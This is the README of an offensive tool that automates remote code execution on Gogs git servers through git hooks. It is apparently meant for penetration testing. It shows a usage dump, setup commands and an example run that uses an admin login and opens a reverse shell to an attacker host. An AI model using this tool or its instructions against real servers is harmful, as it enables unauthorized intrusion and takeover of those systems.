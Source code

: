 # Gogs Remote Code Execution
Tool to automate code execution on the server running Gogs git service.  
Inspired from: https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce

![Alt text](./Gogs.png)

## POC

![Alt text](./example.svg)
<!--[![asciicast](https://asciinema.org/a/562896.svg)](https://asciinema.org/a/562896)-->

## Linux Dependencies
This tool automates the execution of git commands using Linux tools: git and [expect](https://linux.die.net/man/1/expect)
```bash
sudo apt install git
sudo apt install expect
```

## How to use
```bash
./gogs.py -h
usage: gogs.py [-h] -s SERVER -u USERNAME -p PASSWORD -r REVSHELL [-t TLS]

Tool to automate code execution on the server running Gogs git service.
[#] Type: Post-Authenticated
[#] Privilege: Permission to create Git hooks (Admin Panel > Users > Edit Account)
[#] Tested: 0.12.9 

options:
  -h, --help            show this help message and exit
  -s SERVER, --server SERVER
                        Hostname/IP (port) (path)
  -u USERNAME, --username USERNAME
                        Username of the account
  -p PASSWORD, --password PASSWORD
                        Password of the account
  -r REVSHELL, --revshell REVSHELL
                        <ip>:<port>
  -t TLS, --tls TLS     true or false

```

## Example
```bash
/gogs.py -s 192.168.1.24:8000 -u admin -p 'Password1234' -t false -r 192.168.45.5:80
```
## To-Do
- HTTP interaction over internet instead of Reverse Shell
- More enumeration modules ...
